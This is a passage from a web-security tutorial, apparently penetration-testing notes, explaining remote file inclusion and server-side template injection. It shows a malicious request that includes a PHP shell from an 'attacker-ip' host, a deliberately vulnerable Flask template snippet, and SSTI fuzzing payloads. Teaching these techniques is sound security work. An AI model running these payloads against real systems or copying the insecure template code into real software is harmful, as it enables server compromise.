 ```
allow_url_fopen = On

allow_url_include = On
```

An example of RFI is below

```
Normal Request
http://domain.com/test.php?file=hi

Malicious request
http://domain.com/test.php?file=http://attacker-ip/php-server-shell.php
```

#### Server Side Template Injection

**Overview**

SSTI is a server side exploit in which user input is parsed directly to the template engine without validation. Example Template engine code

```python
from flask import Flask, render_template_string 
app = Flask(__name__) 
@app.route("/profile/<user>") 
def profile_page(user): 
	template = f"<h1>Welcome to the profile of {user}!</h1>" 
	return render_template_string(template) 
	app.run()
```

This code creates a template string, and concatenates the user input into it. This way, the content can be loaded dynamically for each user, while keeping a consistent page format An insecure implementation of the template would allow direct user input as shown above. The user input is directly concatenated therefore the engine will interpret that without checks.

**Detection**

Most template engines use the below characters

```
${{<%[%'"}}%
{{2+2}}
```

To fuzz the web application, find an entry point in the URL and replace it with the characters one followed by the another Example

```
https://example.com/products/page
Fuzzing:
https://example.com/products/$
https://example.com/products/${
```

We continue untill we receive an error or some characters disappear from the output. Most of the time, the error message displays the template engine used.
